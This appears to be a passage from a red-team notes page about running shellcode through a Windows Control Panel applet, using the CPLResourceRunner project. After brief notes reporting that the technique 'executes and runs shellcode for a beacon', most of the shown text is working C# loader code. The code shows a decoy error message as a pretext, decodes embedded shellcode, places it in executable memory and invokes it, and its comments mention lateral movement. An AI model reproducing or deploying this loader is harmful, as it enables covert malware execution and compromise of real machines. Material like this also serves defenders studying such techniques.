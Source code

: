 ## Attempt: CPLResourceRunner

Source was taken from Mr Un1k0d3r's [rvrsh3ll/CPLResourceRunner](https://github.com/rvrsh3ll/CPLResourceRunner).

### Assumption

Back to c#. The runner in the repo exports the `CplApplet` entry point, required by the CPL context. This *should* work, as previous work with the repo in the past succeeds when using c# and the control command. 

### Result

Success. Works in both a `control.exe` and CPL context, executes and runs shellcode for a beacon.

### Lessons

In this case, the CPL context, and with the proper export (`CPLApplet`), c# can be used. 

### Source

See the [rvrsh3ll/CPLResourceRunner](https://github.com/rvrsh3ll/CPLResourceRunner) repo for further details. 

```csharp
[DllExport("CPlApplet", CallingConvention = CallingConvention.StdCall)]
public unsafe static IntPtr CPlApplet()
{
    // Change this for your pretext or comment out for lateral movement
    MessageBox.Show("Action Failed Error Number 2950");
    
    string scode = ExtractResource("ControlPanelMaker.Resources.txt");
    byte[] blob = Convert.FromBase64String(scode);
    byte[] shellcode = Decompress(blob);

    if (shellcode.Length == 0) return IntPtr.Zero;

    MemoryMappedFile mmf = null;
    MemoryMappedViewAccessor mmva = null;

    try
    {
        // Create a read/write/executable memory mapped file to hold our shellcode..
        mmf = MemoryMappedFile.CreateNew("__shellcode", shellcode.Length, MemoryMappedFileAccess.ReadWriteExecute);

        // Create a memory mapped view accessor with read/write/execute permissions..
        mmva = mmf.CreateViewAccessor(0, shellcode.Length, MemoryMappedFileAccess.ReadWriteExecute);

        // Write the shellcode to the MMF..
        mmva.WriteArray(0, shellcode, 0, shellcode.Length);

        // Obtain a pointer to our MMF..
        var pointer = (byte*)0;
        mmva.SafeMemoryMappedViewHandle.AcquirePointer(ref pointer);

        // Create a function delegate to the shellcode in our MMF..
        var func = (GetPebDelegate)Marshal.GetDelegateForFunctionPointer(new IntPtr(pointer), typeof(GetPebDelegate));

        // Invoke the shellcode..
        return func();
    }
```